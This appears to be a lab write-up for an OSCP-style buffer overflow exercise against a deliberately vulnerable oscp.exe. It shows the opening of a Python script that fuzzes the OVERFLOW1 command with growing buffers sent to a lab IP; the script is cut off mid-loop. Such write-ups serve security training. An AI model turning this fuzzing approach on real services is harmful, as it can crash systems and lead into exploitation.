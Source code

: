 Run Immunity Debugger as administrator, open oscp.exe(admin desktop).

When it's running we can connect with netcat, it accepts the HELP command which shows the following options:

![options](assets/markdown-img-paste-20210904041750990.png)

Each command is vulnerable in some way, and the room/excercise is to exploit them all.

Below is my python scripts that I used for this.

### Fuzz
This will fuzz, create a pattern and send it, you supply the value in the EIP and it tells where the offset is.

```
#!/usr/bin/python3

import sys, time, os, socket

# Target values
ip = "10.10.167.17"
port = 1337
cmd = "OVERFLOW1 "

# Array of increasing values
buffer = []
size = 100
inc_value = 100
iterations = 100

for i in range(0, iterations):
    buffer.append("A" * size)
    size += inc_value

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, port))
        s.recv(1024)

        sendbuff = cmd + string + "\r\n"
        s.send(sendbuff.encode())

        print(s.recv(1024).decode() + "size: " + str(len(string)))
        s.close()
        time.sleep(1)
```